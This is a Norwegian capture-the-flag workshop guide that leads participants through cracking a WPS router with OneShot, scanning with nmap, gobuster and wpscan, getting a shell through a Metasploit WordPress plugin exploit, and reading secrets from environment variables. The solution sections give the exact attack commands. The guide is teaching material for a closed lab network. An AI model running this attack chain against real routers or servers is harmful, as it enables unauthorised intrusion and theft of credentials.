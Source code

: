 # Hackerworkshop Bekk Fagdag 21.10.2022

I denne workshopen skal du bryte deg inn på en ruter, kartlegge nettverket, finne sårbarheter i en webserver og skaffe deg tilgang til serveren og dens database.

## Engasjementsregler

- Det er bare tillatt å angripe wifi-nettverket kalt HackMe og enheter tilknyttet ruterens lokale nettverk på `192.168.38.0/24`.

- Tjenestenektangrep mot ruteren eller andre enheter på nettverket er ikke tillatt da det vil ødelegge for andre.

- Siden alle er koblet på samme nettverk er det lurt å unngå permanente endringer av filer, rettigheter og lignende dersom du skaffer deg tilgang til en server.

## Oppgaver

### 1. Bryt deg inn på wifi-nettverket
Routeren vi har satt opp bruker en sårbar implementasjon av WPS-protokollen. Ved hjelp av [OneShot](https://github.com/drygdryg/OneShot) kan vi utnytte det! 

**Bruk Oneshot og pixiedust til å finne passordet til HackMe-nettverket. Repoet er allerede klonet og klart på maskinen!**

<details>
<summary>Hint 1</summary>
Naviger til OneShot-repoet i en terminal og kjør oneshot.py med riktig options.
</details>

<details>
<summary>Hint 2</summary>

Dere må spesifisere riktig trådløst grensesnitt ved å bruke `-i` flagget. Trådløst grensesnitt kan du finne med kommandoen `iwconfig`.
  
</details>

<details>
<summary>Hint 3</summary>
  
Om det tar lang tid, kan det hende dere har glemt å spesifisere hvilket angrep OneShot skal kjøre, ved å kjøre `--pixie-dust`.
</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under, og velg nettverket HackMe.
  
```
sudo python oneshot.py -i wlan0 --pixie-dust
```

</details>

</br>

### 2. Kartlegging
Nå som dere er koblet til nettverket, skal dere finne ut hvilke enheter og hvilke åpne porter som er tilgjengelige. 
Noter eventuelle interessante funn.

<details><summary>Hint 1</summary>

Her kan dere bruke verktøyet `nmap` til å scanne nettverket. Bruk `man nmap` for å se hvilke options dere kan gi til nmap.

</details>

<details><summary>Hint 2</summary>

Enheter som ligger i IP-rangen `192.168.38.100 - 192.168.38.255` er dere selv og andre deltakere i workshopen.

</details>

<details><summary>Løsningsforslag</summary>

Kjør nmap med `-A`flagget for å vise mer informasjon om her host.
  
```sudo nmap -A 192.168.38.0-100```
  
</details>


</br>

### 3. Grav dypere!
Velg dere ut det funnet fra forrige oppgave dere tenker er mest interessant å se videre på. Dere skal nå forsøke å lære litt mer om denne enheten, i jakten på en angrepsvinkel.

**a) Finn ut hvilke teknologier som er i bruk på serveren**

<details><summary>Hint 1</summary>
Også her er nmap et fint verktøy. Hvilke porter er åpne? Svarer serveren på http/https-trafikk? 
</details>

<details><summary>Hint 2</summary>
Ved å se at port 8080 er åpen, kan vi anta at serveren svarer på https-trafikk. Om dere åpner IP-adressen i en browser får dere nok et hint! 

Om dere ønsker, kan dere også bruke wappalyzer-utvidelsen i nettleseren for å undersøke nærmere. 
</details>
 
b) **Se etter skjulte ressurser på serveren ved hjelp av verktøyet `gobuster`. Bruk gjerne en kort ordliste, f. eks. [denne](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt) for å unngå å overbelaste serveren.**

<details><summary>Hint 1</summary>
Last ned ordlisten og kjør kommandoen under. Ser dere noen interessante funn?

```gobuster dir -u http://192.168.38.72:1337 -w common.txt```
</details>

<details><summary>Løsningsforslag</summary>

Her finnes det flere måter man kan konkludere med at webserveren kjører en wordpress-instans. Man kan feks åpne http://192.168.38.72 i en browser, og se at "Powered by wordpress" pryder footeren på siden. 
  
Ved hjelp av gobuster kan vi også finne frem til siden (TODO: Hvilken side var det de kunne finne her?). Om dere fant denne, fikk dere også et flagg. Yay!

</details> 
 
</br>

### 4. Kjente sårbarheter?

Nå som dere har funnet ut hvilke teknologier som brukes, er neste steg å finne ut nøyaktig hvilke versjoner som kjører, og om de har noen kjente sårbarheter. 
</br></br>
**Se om dere finner noe sårbart som kjører på serveren!**

<details><summary>Hint 1</summary>

Ettersom vi vet at dette er en wordpress-server, kan vi bruke verktøyet `wpscan`. Dette verktøyet er allerede installert på kali linux, og brukes til å scanne blant annet sårbare versjoner, plugins og themes i tillegg til feilkonfigurasjoner.

</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under. Fra resultatet ser vi at serveren kjører en sårbar versjon av pluginen simple-file-list. 
  
```wpscan --url http://192.168.38.72:1337 ```

</details>
</br>

### 5. Exploit time!
Nå som vi er ferdig med kartlegging av målet, er det på tide å dra frem storskytsen! Vi har funnet et mål, kartlagt teknologien og funnet en sårbarhet vi kan bruke som inngang. 
</br> </br>
**Bruk metasploit til å skaffe dere et shell på serveren.**

<details><summary>Hint 1</summary>
  
For å starte metasploit (metasploit framework console) kjører dere kommandoen `msfconsole`. Inne i metasploit-konsollen kan dere bruke kommandoen `search` for å lete etter en konkret exploit. 
</details>

<details><summary>Hint 2</summary>
  
Exploiten dere trenger heter `exploit/multi/http/wp_simple_file_list_rce`. Last den ved å bruke `use`-kommandoen, og sett de nødvendige variablene før dere kjører `exploit`!
</details>

<details><summary>Hint 3</summary>

Dere må sette følgende variabler ved hjelp av metasploits `set`-kommando.
  
```
RHOST - Remote host, denne fant dere tidligere
RPORT - Remote port, denne fant dere tidligere
LHOST - Local host. Deres egen IP (ikke localhost)
```
</details>

<details><summary>Løsningsforslag</summary>
</br>
Kjør kommandoene under, så vil du forhåpentligvis få et shell på serveren!
  
```
> msfconsole
> use exploit/multi/http/wp_simple_file_list_rce
> set RHOST 192.168.38.72
> set RPORT 1337
> set LHOST <deres egen ip>
> exploit
```  
</details>

</br>

### 6. Se dere rundt!
Nå som vi har et shell på serveren, kan vi begynne å snoke rundt etter noe interessant (.. i dette tilfellet et flagg!). 
</br></br>
**Ta en runde på serveren, og se om dere finner noe som ligner et flagg.**

<details><summary>Hint 1</summary>
Det kan være fristende å navigere rundt i filsystemet, men det vil være en blindvei i dette tilfellet. 
</details>


<details><summary>Hint 2</summary>
Hvor pleier man å gjemme hemmeligheter?
</details>

<details><summary>Hint 3</summary>
Det kan være lurt å ta en titt på miljøvariabler.
</details>

<details><summary>Løsningsforslag</summary>

Flagget ligger i en miljøvariabel på serveren. Kjør følgende kommando: `printenv`
</details>

</br>

### 7. Kom dere inn i databasen!

